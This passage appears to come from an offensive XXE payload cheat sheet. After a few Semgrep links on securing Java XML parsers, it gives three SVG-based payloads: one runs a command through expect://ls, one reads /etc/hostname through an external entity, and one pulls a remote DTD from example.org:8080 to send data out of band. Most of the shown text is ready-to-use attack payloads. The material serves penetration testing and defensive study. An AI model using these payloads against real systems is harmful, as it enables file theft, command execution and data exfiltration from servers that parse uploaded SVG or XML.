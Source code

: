 - [Validator (javax.xml.validation.Validator)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3h-validator)
- [XMLReader (org.xml.sax.XMLReader)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3i-xmlreader)

Ref.

- [Semgrep - XML Security in Java](https://semgrep.dev/blog/2022/xml-security-in-java)
- [Semgrep - XML External entity prevention for Java](https://semgrep.dev/docs/cheat-sheets/java-xxe/)

## XXE in exotic files

### XXE inside SVG

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls" width="200" height="200"></image>
</svg>
```

**Classic**

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

**OOB via SVG rasterization**

*xxe.svg*

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % sp SYSTEM "http://example.org:8080/xxe.xml">
%sp;
%param1;
]>
<svg viewBox="0 0 200 200" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
      <text x="15" y="100" style="fill:black">XXE via SVG rasterization</text>
      <rect x="0" y="0" rx="10" ry="10" width="200" height="200" style="fill:pink;opacity:0.7"/>
      <flowRoot font-size="15">
         <flowRegion>
           <rect x="0" y="0" width="200" height="200" style="fill:red;opacity:0.3"/>
         </flowRegion>
         <flowDiv>
            <flowPara>&exfil;</flowPara>
         </flowDiv>
      </flowRoot>
</svg>
```
